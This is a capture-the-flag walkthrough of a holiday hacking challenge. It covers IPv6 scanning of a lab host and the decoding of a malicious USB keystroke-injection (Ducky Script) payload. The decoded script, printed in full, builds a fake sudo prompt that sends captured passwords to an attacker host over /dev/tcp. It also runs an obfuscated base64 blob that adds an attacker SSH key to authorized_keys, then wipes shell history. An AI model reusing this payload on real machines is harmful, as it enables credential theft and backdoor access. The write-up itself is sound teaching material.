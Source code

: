 # Challenge 5: Strange USB Device

> Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

## The Hint

Speaking with Jewel, we get the following:

> Well hello! I'm Jewel Loggins.
> 
> I have to say though, I'm a bit distressed.
> 
> The con next door? Oh sure, I’m concerned about that too, but I was talking about the issues I’m having with IPv6.
> 
> I mean, I know it's an old protocol now, but I've just never checked it out.
> 
> So now I'm trying to do simple things like Nmap and cURL using IPv6, and I can't quite get them working!
> 
> Would you mind taking a look for me on this terminal?
> 
> I think there's a Github Gist that covers tool usage with IPv6 targets.
> 
> The tricky parts are knowing when to use [] around IPv6 addresses and where to specify the source interface.
> 
> I’ve got a deal for you. If you show me how to solve this terminal, I’ll provide you with some nice tips about a topic I’ve been researching a lot lately – Ducky Scripts! They can be really interesting and fun!

Jumping into the terminal, we get the following prompt:

```bash
Tools:

* netcat
* nmap
* ping / ping6
* curl

Welcome, Kringlecon attendee! The candy striper is running as a service on                    
this terminal, but I can't remember the password. Like a sticky note under the                
keyboard, I put the password on another machine in this network. Problem is: I                
don't have the IP address of that other host.

Please do what you can to help me out. Find the other machine, retrieve the                   
password, and enter it into the Candy Striper in the pane above. I know you                   
can get it running again!
```

Let's check to see what our ipv6 address is, and then send a multicast ping to see what other systems are on our network:

```bash
elf@245aa314480f:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000   
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                                     
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
1196: eth0@if1197: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:c0:a8:a0:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0                         
    inet 192.168.160.3/20 brd 192.168.175.255 scope global eth0                               
       valid_lft forever preferred_lft forever
    inet6 2604:6000:1528:cd:d55a:f8a7:d30a:2/112 scope global nodad                           
       valid_lft forever preferred_lft forever
    inet6 fe80::42:c0ff:fea8:a003/64 scope link                                               
       valid_lft forever preferred_lft forever
elf@245aa314480f:~$ ping6 ff02::1 -c2
PING ff02::1(ff02::1) 56 data bytes
64 bytes from fe80::42:c0ff:fea8:a003%eth0: icmp_seq=1 ttl=64 time=0.035 ms                   
64 bytes from fe80::42:ebff:fe17:d854%eth0: icmp_seq=1 ttl=64 time=0.112 ms (DUP!)            
64 bytes from fe80::42:c0ff:fea8:a002%eth0: icmp_seq=1 ttl=64 time=0.124 ms (DUP!)            
64 bytes from fe80::42:c0ff:fea8:a003%eth0: icmp_seq=2 ttl=64 time=0.037 ms                   

--- ff02::1 ping statistics ---
2 packets transmitted, 2 received, +2 duplicates, 0% packet loss, time 6ms                    
rtt min/avg/max/mdev = 0.035/0.077/0.124/0.041 ms
```

We can see that we are `fe80::42:c0ff:fea8:a003`, so we can rule those entries out as targets.  We can see another IP that's close to ours: `fe80::42:c0ff:fea8:a002%eth0` which makes it a good target.  Let's run an `nmap` scan:

```bash
elf@245aa314480f:~$ nmap -6 fe80::42:c0ff:fea8:a002%eth0
Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-21 17:09 UTC
Nmap scan report for fe80::42:c0ff:fea8:a002
Host is up (0.000088s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

We can see that port 80 is open - let's curl it and see what we get back:

```bash
elf@245aa314480f:~$ curl http://[fe80::42:c0ff:fea8:a002] --interface eth0
<html>
<head><title>Candy Striper v6</title></head>
<body>
<marquee>Connect to the other open TCP port to get the striper's activation phrase!</marquee>
</body>
</html>
```

We can connect to the other port with `nc` to retrieve the passphrase:

```bash
elf@245aa314480f:~$ nc -6 fe80::42:c0ff:fea8:a002%eth0 9000
PieceOnEarth
```

Once complete, here's what Jewel has to say:

> Great work! It seems simpler now that I've seen it once. Thanks for showing me!
> 
> Prof. Petabyte warned us about random USB devices. They might be malicious keystroke injectors!
> 
> A troll could program a keystroke injector to deliver malicious keystrokes when it is plugged in.
> 
> Ducky Script is a language used to specify those keystrokes.
> 
> What commands would a troll try to run on our workstations?
> 
> I heard that SSH keys can be used as backdoors. Maybe that's useful?

## The Main Challenge

The USB device in question can be found by heading throug the doorway at the far left of the Santa Talks floor.  Accessing the terminal gives the following prompt:

```bash
A random USB device, oh what could be the matter?
It seems a troll has left this, right on a silver platter.
Oh my friend I need your ken, this does not smell of attar.
Help solve this challenge quick quick, I shall offer no more natter.

Evaluate the USB data in /mnt/USBDEVICE.


elf@8cf4fe6a23da:~$
```

Listing the contents of our directory, we see we have access to `mallard.py` which seems to be a script to help with evaluating duckscript binaries:

```bash
elf@d1717fa474ab:~$ ls -l
total 12
-rwxr-xr-x 1 root root 8802 Nov 30 22:14 mallard.py*
elf@d1717fa474ab:~$ ./mallard.py 
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
  --no_analyze, -A      Include this switch to turn off analysis of the duckyfile
  --output_file OUTPUT_FILE, -o OUTPUT_FILE
                        File to save decoded ducky script to. Default will print duckyfile to
                        screen.
  --analysis_file ANALYSIS_FILE
                        Location to output analysis. Default will print analysis to screen.
  --debug               Enable Debug Logging.
 
```

Let's run it against the `USBDEVICE`:

```bash
elf@d1717fa474ab:~$ ./mallard.py -f /mnt/USBDEVICE/inject.bin -o out                           
ENTER                                                                                          
DELAY 1000                                                                                     
GUI SPACE                                                                                      
DELAY 500                                                                                      
STRING terminal                                                                                
ENTER                                                                                          
DELAY 500                                                                                      
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
GUI -                                                                                          
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo                                                                                    
ENTER                                                                                          
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null                                         
ENTER                                                                                          
STRING if [ $? -eq 1 ]                                                                         
ENTER                                                                                          
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

We get what appears to be the original Ducky Script.  The script seems to be generating a fake sudo prompt, capturing the target users' sudo credentials, and sending them to a malicious site.  Towards to bottom, we see what looks like a reversed base64 encoded string that gets piped to `rev`, then `base64 -d` to decode, and finally `bash` to execute.  We can run this command in a bash terminal, minus the pipe to `bash`, to retrieve its contents:

```
$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

The device adds a malicious ssh key to the authorized keys list for backdoor access to the victims system.  This key includes the answer to the challenge `ickymcgoop`. 